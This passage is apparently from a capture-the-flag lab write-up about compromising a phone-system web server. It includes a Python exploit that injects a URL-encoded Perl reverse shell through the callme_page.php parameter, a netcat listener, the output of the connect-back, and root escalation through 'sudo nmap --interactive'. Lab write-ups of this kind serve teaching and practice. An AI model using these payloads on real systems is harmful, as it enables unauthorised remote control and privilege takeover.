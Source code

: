 Showing extension 233 is active but requires authorization to use as a phone. This isn't actually a problem as the `callme_page.php` suggests that the web app is sending to this number.
 
## Exploit
 
I edit the exploit to be:
 
 
``` python
import urllib
import ssl
rhost="10.10.10.7"
lhost="10.10.14.37"
lport=443
extension="233" #changed extension
context = ssl._create_unverified_context()
 
url = 'https://'+str(rhost)+'/recordings/misc/callme_page.php?action=c&callmenum='+str(extension)+'@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%22'+str(lhost)+'%3a'+str(lport)+'%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A'
 
urllib.urlopen(url, context=context)
```
 
``` bash
sudo nc -nvlp 443
```
 
and run with:
 
``` bash
python 18650.py
```
 
This pops a shell in my listener terminal:
 
```
listening on [any] 443 ...
connect to [10.10.14.37] from (UNKNOWN) [10.10.10.7] 36837
```
 
 
## Priv Escalation
 
Following the comments in 18650 I run
 
``` sh
sudo nmap --interactive
```
 
to get the following as expected:
 
```
Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap>
```
 